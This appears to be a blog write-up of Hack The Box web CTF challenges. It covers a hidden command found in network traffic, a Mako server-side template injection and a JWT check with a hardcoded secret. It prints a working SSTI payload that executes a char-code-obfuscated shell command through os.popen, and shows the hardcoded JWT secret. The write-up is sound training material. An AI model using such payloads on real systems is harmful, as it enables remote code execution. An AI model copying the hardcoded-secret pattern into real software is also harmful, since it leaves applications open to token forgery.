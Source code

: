 ```yaml
---
layout: post
title: Hackthebox
date: 09-01-2025
categories: [Documentation]
tag: [web, htb, hackthebox, ctf]
image:
  path: /assets/img/titles/mega-menu-logo-htb.svg
  alt: hackthebox image
description: Some cool and fun web challenges from hackthebox.
---
```


# Web

## Flag Command

After some time exploring, I couldn't find a way to exploit using `command injection`, so I started digging through the source code and moved to the `Network` tab of the `Dev tool`. There, I found a field called `secret` containing the `text` : `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack.`. I passed it into the `command`, and it returned the `flag`.

## Spookifier

In this challenge, we see that font4 will not be mapped to other things, so we will perform a general attack using `SSTI with Mako`. [link](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation)

`payload`
```
${self.module.cache.util.os.popen(str().join(chr(i)for(i)in[99,97,116,32,47,102,108,97,103,46,116,120,116])).read()}

99 97 116 32 47 102 108 97 103 46 116 120 116 = cat /flag.txt
```

## WayWitch

`util.js`
```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
  const secret = "halloween-secret";

  try {
    const decoded = jwt.verify(token, secret);
    return decoded.username;
  } catch (err) {
    throw new Error("Invalid token: " + err.message);
  }
}

module.exports = {
  getUsernameFromToken,
};
```

